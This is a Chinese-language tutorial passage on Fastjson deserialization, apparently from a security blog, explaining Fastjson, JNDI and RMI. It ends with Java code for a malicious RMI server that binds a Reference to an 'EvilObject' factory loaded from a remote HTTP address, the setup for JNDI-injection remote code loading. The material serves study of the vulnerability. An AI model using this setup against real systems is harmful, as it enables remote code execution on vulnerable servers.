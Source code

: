 1.FastJson 简介
-------------

##### fastjson.jar包原始下载地址：<https://github.com/alibaba/fastjson>

##### fastjson用于将Java Bean序列化为JSON字符串，也可以从JSON字符串反序列化到JavaBean。fastjson.jar是阿里开发的一款专门用于Java开发的包，可以方便的实现json对象与JavaBean对象的转换，实现JavaBean对象与json字符串的转换，实现json对象与json字符串的转换。除了这个fastjson以外，还有Google开发的Gson包，其他形式的如net.sf.json包，都可以实现json的转换。方法名称不同而已，最后的实现结果都是一样的。

```php
将json字符串转化为json对象
在net.sf.json中是这么做的
JSONObject obj = new JSONObject().fromObject(jsonStr);//将json字符串转换为json对象
在fastjson中是这么做的
JSONObject obj=JSON.parseObject(jsonStr);//将json字符串转换为json对象
```

### 1.1 JNDI

##### JNDI是 Java 命名与目录接口（Java Naming and Directory Interface），在J2EE规范中是重要的规范之一。JNDI提供统一的客户端API，为开发人员提供了查找和访问各种命名和目录服务的通用、统一的接口，可以用来定位用户、网络、机器、对象和服务等各种资源。比如可以利用JNDI再局域网上定位一台打印机，也可以用JNDI来定位数据库服务或一个远程Java对象。JNDI底层支持RMI远程对象，RMI注册的服务可以通过JNDI接口来访问和调用。

##### JNDi是应用程序设计的Api，JNDI可以根据名字动态加载数据，支持的服务主要有以下几种：

```php
DNS、LDAP、CORBA对象服务、RMI
```

### 1.2 利用JNDI References进行注入

##### 对于这个知识点，我们需要先了解RMI的作用。

##### 首先RMI（Remote Method Invocation）是专为Java环境设计的远程方法调用机制，远程服务器实现具体的Java方法并提供接口，客户端本地仅需根据接口类的定义，提供相应的参数即可调用远程方法。RMI依赖的通信协议为JRMP(Java Remote Message Protocol ，Java 远程消息交换协议)，该协议为Java定制，要求服务端与客户端都为Java编写。这个协议就像HTTP协议一样，规定了客户端和服务端通信要满足的规范。在RMI中对象是通过序列化方式进行编码传输的。RMI服务端可以直接绑定远程调用的对象以外，还可通过References类来绑定一个外部的远程对象，当RMI绑定了References之后，首先会利用Referenceable.getReference()获取绑定对象的引用，并在目录中保存，当客户端使用lookup获取对应名字时，会返回ReferenceWrapper类的代理文件，然后会调用getReference()获取Reference类，最终通过factory类将Reference转换为具体的对象实例。

##### 服务端

```php
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
public class RMIServer {
 public static void main(String args[]) throws Exception {
 Registry registry = LocateRegistry.createRegistry(1099);
 // Reference需要传入三个参数(className,factory,factoryLocation)
 // 第一个参数随意填写即可，第二个参数填写我们http服务下的类名，第三个参数填写我们的远程地址
 Reference refObj = new Reference("Evil", "EvilObject", "http://127.0.0.1:8000/");
 // ReferenceWrapper包裹Reference类，使其能够通过RMI进行远程访问
 ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
 registry.bind("refObj", refObjWrapper);
 }
}
```